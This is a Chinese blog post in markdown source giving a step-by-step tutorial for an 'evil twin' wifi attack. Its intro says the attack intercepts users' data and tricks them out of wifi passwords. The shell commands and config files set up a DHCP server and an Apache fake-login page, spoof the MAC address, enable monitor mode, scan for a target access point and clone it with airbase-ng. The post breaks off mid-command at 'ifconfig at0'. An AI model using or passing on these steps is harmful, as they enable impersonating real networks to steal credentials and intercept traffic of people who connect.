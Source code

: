 ```yaml
---
layout: post
title: 山寨wifi接入点
---
```


有一种攻击叫evil twin无线接入攻击，通过将无线网络设置伪装成合法的无线网络名称来实施。通常，双胞胎无线接入点总是缺乏安全特性的，对于用户来说它就像一个正常的wifi热点。

不法分子用这种方法可以截获连接到这个"wifi"用户的敏感数据，也能骗取Wifi认证密码，附带各种恶搞。

* [在Wifi网络中嗅探明文密码(HTTP POST请求、POP等)](http://topspeedsnail.com/wireshark-hack-http-post-password/)

### 安装isc-dhcp-server

这是一个dhcp服务程序，为连接到wifi的用户分配ip。

{% highlight shell %}
# apt-get install isc-dhcp-server
{% endhighlight %}

### 配置Apache2

在用户连接到wifi之后，负责发送假的认证网页。

创建网站目录：

{% highlight shell %}
# mkdir /var/www/public_html
{% endhighlight %}

编辑：

{% highlight shell %}
# vim /etc/apache2/mods-available/userdir.conf
{% endhighlight %}

![山寨wifi接入点]({{ site.baseurl }}/images/2016/5/Screenshot from 2016-05-06 15-20-31.png)

重启Apache：

{% highlight shell %}
# systemctl restart apache2
{% endhighlight %}

### 配置isc-dhcp-server

{% highlight shell %}
# vim /etc/dhcp/dhcpd.conf
{% endhighlight %}

在文件中添加：

```
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.1.0 netmask 255.255.255.0
{
        option subnet-mask 255.255.255.0;
        option broadcast-address 192.168.1.255;
        option routers 192.168.1.1;
        option domain-name-servers 8.8.8.8;
        range 192.168.1.1 192.168.1.100;
}
```

### 解决airmon-ng和Network Manager的冲突

{% highlight shell %}
# vim /etc/NetworkManager/NetworkManager.conf
{% endhighlight %}

在文件尾添加：

```
[keyfile]
unmanaged-devices=interface-name:wlan0mon;interface-name:wlan1mon;interface-name:wlan2mon;interface-name:wlan3mon;interface-name:wlan4mon;interface-name:wlan5mon;interface-name:wlan6mon;interface-name:wlan7mon;interface-name:wlan8mon;interface-name:wlan9mon;interface-name:wlan10mon;interface-name:wlan11mon;interface-name:wlan12mon
```

### 无线网卡的监控模式

{% highlight shell %}
# ifconfig wlan0 down    # 关闭无线网卡
# macchanger -r wlan0    # 更改mac地址；随机
# airmon-ng check kill 
# airmon-ng start wlan0  # 启动无线网卡的监控模式
{% endhighlight %}

找到一个要山寨的wifi热点

{% highlight shell %}
# airodump-ng wlan0mon
{% endhighlight %}

记住AP名和频道。

### 山寨一个wifi

{% highlight shell %}
# airbase-ng  -e "test" -c 6 wlan0mon
{% endhighlight %}

ifconfig at0 









